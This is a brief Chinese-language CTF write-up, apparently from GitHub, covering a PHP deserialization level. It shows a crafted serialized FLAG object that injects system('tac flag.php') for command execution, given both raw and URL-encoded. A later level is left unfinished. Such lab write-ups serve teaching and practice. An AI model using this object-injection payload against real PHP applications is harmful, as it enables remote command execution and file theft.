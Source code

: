 ![image](https://github.com/user-attachments/assets/13a3347d-6a0f-495c-9caa-c88b4abc46be)

![image](https://github.com/user-attachments/assets/139af564-f2cd-4bc3-b98d-90a26616b838)

## Level7-实例化和反序列化
进入后发现此题通过改变序列化的字符串来决定"还原"对象的值

这道题可以修改s:24:"echo 'Hello World!<br>';"来控制backdoor()函数进行命令执行

![image](https://github.com/user-attachments/assets/7221d29c-a648-4aef-baa7-32def7a7ab7c)

对以下这段指令进行url编码

o=O:4:"FLAG":1:{s:12:"flag_command";s:23:"system('tac flag.php');";}

得到

o=O%3A4%3A%22FLAG%22%3A1%3A%7Bs%3A12%3A%22flag_command%22%3Bs%3A23%3A%22system('tac%20flag.php')%3B%22%3B%7D

![image](https://github.com/user-attachments/assets/2faf7b14-2483-4d01-89ae-69e163ee170d)

拿到flag

## Level8-GC机制
下周继续补完...
